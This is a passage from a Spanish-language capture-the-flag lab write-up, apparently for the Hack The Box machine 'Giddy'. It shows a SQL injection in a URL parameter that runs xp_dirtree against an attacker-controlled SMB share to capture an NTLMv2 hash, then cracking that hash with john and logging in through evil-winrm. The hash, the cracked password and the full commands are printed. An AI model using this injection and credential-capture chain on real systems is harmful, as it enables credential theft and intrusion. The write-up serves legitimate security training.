 Introduzco la inyección en la URL

```null
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=1;EXEC%20MASTER.sys.xp_dirtree%20%27\\10.10.16.3\shared%27,%201,%201
```

Y recibo el hash

```null
smbserver.py shared $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49712)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:2505d017d4926b0368e8a90028de8823:010100000000000000f3e411a53bd9016598cb7e2cf2c5c00000000001001000420071004800620073006a006200590003001000420071004800620073006a006200590002001000570066005a007000730052007300640004001000570066005a00700073005200730064000700080000f3e411a53bd90106000400020000000800300030000000000000000000000000300000bd9974ae3bbb1d17a820452007ae016601f0c3efe86ccae3fb99413e619ea4050a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:shared)
```

Lo rompo por fuerza bruta con john

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:01 DONE (2023-02-08 10:08) 0.8620g/s 2318Kp/s 2318Kc/s 2318KC/s xamton..x9820x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Gano acceso por wirnm

```null
evil-winrm -i 10.10.10.104 -u Stacy -p xNnWo6272k7x

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Stacy\Documents>
```

